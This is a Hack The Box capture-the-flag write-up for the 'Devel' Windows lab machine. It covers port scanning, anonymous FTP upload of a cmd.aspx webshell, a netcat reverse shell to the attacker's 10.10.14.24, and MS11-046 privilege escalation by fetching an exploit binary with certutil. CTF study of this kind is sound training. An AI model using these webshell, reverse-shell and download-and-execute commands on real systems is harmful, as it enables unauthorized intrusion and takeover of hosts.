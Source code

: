 # Devel 

**Links:** [1](https://www.hackthebox.com/machines/Devel)  [2](https://app.hackthebox.com/machines/Devel)

**Machine ip:** 10.10.10.5

![devel](https://github.com/h4md153v63n/CTFs/assets/5091265/9ab7e4a6-088a-4d20-88e1-5bc25641cfa1)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.5 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.5 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fd580f7a-f9d8-4301-9fd7-82b27bb870e8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/346d5392-a21f-4dde-b88b-5d98570477a1)


## Enumeration
```
ftp anonymous@10.10.10.5

# or

ftp 10.10.10.5

Name (10.10.10.5:kali): anonymous
Password:

dir
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5149c861-836c-4c01-adf3-c5e5c3ad24d8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/239327b2-ccb6-453a-9645-357665efbd90)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8f62462c-3a38-4713-85c3-4d48866cbec0)


## Exploitation & Gaining Access 
Download, and transfer asp webshell using [cmd.aspx](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx).

```
put cmd.aspx

dir
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cf0496fc-5036-426f-9943-52b96ec96bd1)

Navigate to "http://10.10.10.5/cmd.aspx", and get a webshell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a37e66b5-b01c-4d6a-b2bb-bd8c4c0b464b)

Trigger the reverse shell:

```
# On the kali attack vm:
ls /usr/share/windows-binaries

smbserver.py tmp /usr/share/windows-binaries

nc -lnvp 4444

# On the webshell:
Program: \\10.10.14.24\tmp\nc.exe

Arguments: -e cmd.exe 10.10.14.24 4444

Run
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/34e2978a-e667-4b52-be83-934e27050b5a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/78cf0d24-8148-458c-9b1d-bb9f20707968)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1f5378dd-6bf9-42f4-86ab-3d02c331d11b)


## Privilege Escalation
```
# On the target machine:
systeminfo
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/89b2ddc2-3b53-41b6-9dc8-56745f3290dc)

Search  **windows 7 build 7600 x86 privilege escalation** on the internet.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5f6364c1-4f41-4730-be7a-50517bec0105)

```
# On the kali attack vm:
searchsploit ms11-046

searchsploit -m 40564

sed -n '60,70p' 40564.c
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ab0cef06-f654-4927-88ed-0cc94bdc4a2f)

```
# On the kali attack vm:
# Compile:
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32

sudo python3 -m http.server

# On the target machine:
cd Users\Public\Downloads

certutil.exe -urlcache -split -f "http://10.10.14.24:8000/MS11-046.exe" MS11-046.exe

MS11-046.exe
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bdb02526-aad4-4391-86f4-7160e7e7ab36)



# References & Alternatives
+ https://vvmlist.github.io/#devel
+ x


## CVE Scripting
+ x


## Tools
+ **webshell / cmd.aspx:** https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx
  + https://github.com/nikicat/web-malware-collection/blob/master/Backdoors/ASP/cmd.aspx


## Technical Knowledge
+ x


## Problems Solution
+ x


## For More
+ x
